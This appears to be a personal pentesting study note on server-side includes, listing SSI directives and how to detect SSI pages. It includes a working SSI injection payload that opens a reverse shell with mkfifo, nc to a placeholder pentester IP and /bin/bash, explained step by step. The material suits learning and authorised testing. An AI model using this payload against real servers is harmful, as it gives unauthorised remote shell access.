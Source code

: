 ```yaml
---
id: 3_SSRF
created_date: 06/01/2023
updated_date: 06/01/2023
type: note
---
```


#  3_SSRF SERVER-SIDE INCLUDES 
- **🏷️Tags** :  #01-2023 

## 📝 Notes

Server-side includes (`SSI`) is a technology used by web applications to create dynamic content on HTML pages before loading or during the rendering process by evaluating SSI directives. Some SSI directives are:

Code: html

```html
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```

The use of SSI on a web application can be identified by checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

you can use the cmd command but what's better than a reverse-shell ? 

#### Reverse Shell

```html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

-   `mkfifo /tmp/foo`: Create a FIFO special file in `/tmp/foo`
-   `nc <IP> <PORT> 0</tmp/foo`: Connect to the pentester machine and redirect the standard input descriptor
-   `| bin/bash 1>/tmp/foo`: Execute `/bin/bash` redirecting the standard output descriptor to `/tmp/foo`
-   `rm /tmp/foo`: Cleanup the FIFO file

## Questions/Thoughts
- FIFO stands for "First In, First Out." It is a type of file that works like a queue. When you add things (or "write") to the FIFO file, they are added to the end of the queue. When you take things (or "read") from the FIFO file, they are taken from the front of the queue. This means that the first thing you added to the FIFO file will be the first thing you take out.

- An example of using a FIFO file is in a ticketing system. Imagine you are at a concert and there are several ticket windows. When you buy a ticket, you go to the first available window and buy it. The first person to arrive at the concert gets the first ticket, the second person gets the second ticket, and so on. This is similar to how a FIFO file works.

## 🔗 Links
- 